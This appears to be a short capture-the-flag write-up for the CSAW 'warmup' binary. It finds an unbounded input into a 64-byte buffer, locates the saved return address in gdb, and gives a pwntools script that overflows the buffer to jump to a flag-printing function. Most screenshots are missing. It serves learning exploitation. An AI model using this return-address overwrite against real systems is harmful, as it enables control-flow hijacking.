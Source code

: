 ![[warmupscsaw]]

### Recon

![[Pasted image 20240507221841.png]]


![[Pasted image 20240507221935.png]]

- some address is printed out so lets view it on ghidra
### Walkthrough

- it prints the address of  a function ![[Pasted image 20240507222350.png]]
- the function prints the flag on the screen![[Pasted image 20240507222431.png]]
### Finding Vulnerability
- In 13th line, the size of local_48 to be got as input is not specified , so we can get beyond 64 and overwrite the RIP(address to be executed next) to the function calling flag before ret is called
### Exploit

- get offset between input and RIP and pad the address of flag fun at end
- set break point before ret![[Pasted image 20240507222945.png]]
- ![[Pasted image 20240507223109.png]]
- search where the input is located in stack using ==search-pattern 1234==![[Pasted image 20240507223213.png]]
- then find the address of RIP using info frame ==i f== ![[Pasted image 20240507223346.png]]
- let us find the offset using python ![[Pasted image 20240507223412.png]]
### Payload
- we have offset,address of flag func to overwrite rip 

```
from pwn import *

target = process('./warmup')
#gdb.attach(target, gdbscript = 'b *0x4006a3')

# Make the payload
payload = ""
payload += "0"*0x48 # Overflow the buffer up to the return address
payload += p64(0x40060d) # Overwrite the return address with the address of the `easy` function

# Send the payload
target.sendline(payload)

target.interactive()

```

